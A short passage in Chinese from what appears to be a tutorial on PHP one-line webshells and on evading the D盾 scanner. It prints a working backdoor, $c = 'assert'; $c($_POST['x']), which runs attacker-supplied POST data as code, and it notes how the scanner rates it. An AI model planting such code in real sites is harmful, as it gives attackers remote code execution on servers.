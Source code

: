 ![5级](ex_10.png)

这种就是最简单的一句话木马，使用D盾扫一下，可以看到5级，没有什么好说的。

动态函数方法,把assert这个函数赋值两次变量,再把变量当成函数执行。

```php
$c = "assert";
$c($_POST['x']);
```
